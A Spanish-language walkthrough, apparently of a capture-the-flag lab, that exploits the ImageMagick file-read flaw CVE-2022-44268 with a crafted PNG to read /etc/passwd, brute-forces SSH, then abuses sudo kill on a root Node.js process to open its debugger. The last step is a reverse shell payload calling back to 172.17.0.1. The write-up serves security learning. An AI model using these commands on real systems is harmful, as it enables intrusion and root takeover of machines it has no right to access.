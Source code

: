 Hacemos el escaneo de puertos con nmap:
![[Pasted image 20240804203945.png]]
Dentro del puerto 80 tenemos una web para redimensionar imágenes:
![[Pasted image 20240804204056.png]]
La probamos y funciona bien:
![[Pasted image 20240804204134.png]]
Hacemos fuzzing web y vemos dos archivos php:
![[Pasted image 20240804204232.png]]
Visualizamos el info.php:
![[Pasted image 20240804204247.png]]
Y por aquí vemos algo de imagick en su versión 6.9.7-4:
![[Pasted image 20240804204436.png]]
Si investigamos por internet esta versión de imagemagick, vemos que es vulnerable a un arbitrary file read:
```bash
https://www.exploit-db.com/exploits/51261
https://github.com/voidz0r/CVE-2022-44268
```
Para explotar esto, vamos a incrustar un comando dentro de la imagen usando pngcrush:
```bash
pngcrush -text a "profile" "/etc/passwd" wallpaper.png
```
![[Pasted image 20240804205244.png]]
Y esto nos habrá devuelto un archivo llamado pngout.png que podremos analizar y comprobamos que el comando se ha insertado correctamente:
![[Pasted image 20240804205321.png]]
Lo cargamos:
![[Pasted image 20240804205346.png]]
Nos descargamos la imagen y la analizamos con identify:
```bash
identify -verbose resultado.png
```
![[Pasted image 20240804205632.png]]
Y ahora, siguiendo las instrucciones del siguiente repositorio, tenemos que convertir esta información de hexadecimal a string:
```bash
https://github.com/voidz0r/CVE-2022-44268
```
![[Pasted image 20240804205750.png]]
También podemos convertir esto a string usando chatgpt diciendo que nos convierta esa información de hexadecimal a string:
![[Pasted image 20240804210051.png]]
Hacemos fuerza bruta por ssh y funciona:
![[image-11.png]]
![[Pasted image 20240804210131.png]]
Una vez dentro, vemos que podemos ejecutar kill como root:
![[Pasted image 20240804210158.png]]
Y viendo procesos ejecutándose en segundo plano, vemos que hay un archivo javascript que se levanta automáticamente:
![[Pasted image 20240804210250.png]]
Si ejecutamos el siguiente comando podemos ver si hay algún puerto escuchando:
```bash
netstat -ano | grep LISTEN
```
![[Pasted image 20240805091938.png]]
Por tanto, con curl vamos a visualizar lo que nos encontramos por el puerto 8000:
![[Pasted image 20240805092040.png]]
Como podemos matar cualquier proceso miramos de abrir el debuger de node.js enviando una señal `SIGUSR1` al proceso de node.js. Esto deberia abrir el puerto de deug mediante websockets para la aplicación de node.js. Por lo que primero confirmamos que el PID de node sea accesible:
```bash
ps aux | grep node | grep root | awk '{print $2}'
```
![[Pasted image 20240805092343.png]]
Y ahora vamos a comprobar si hay otro puerto abierto:
```bash
sudo /bin/kill -s SIGUSR1 $(ps aux | grep node | grep root | awk '{print $2}')
```
![[Pasted image 20240805092429.png]]
Ahora entraremos con el inspector de node a dicho puerto, el puerto 9229 es utilizado por Node.js para habilitar y acceder al modo de depuración (debugging):
```bash
node inspect 127.0.0.1:9229
```
![[Pasted image 20240805092523.png]]
Y dentro de esta consola, ejecutaremos el siguiente comando:
```bash
exec("process.mainModule.require('child_process').exec('bash -c \"/bin/bash -i >& /dev/tcp/172.17.0.1/443 0>&1\"')")
```
![[Pasted image 20240805092658.png]]
Y habremos recibido la shell como root:
![[Pasted image 20240805092800.png]]
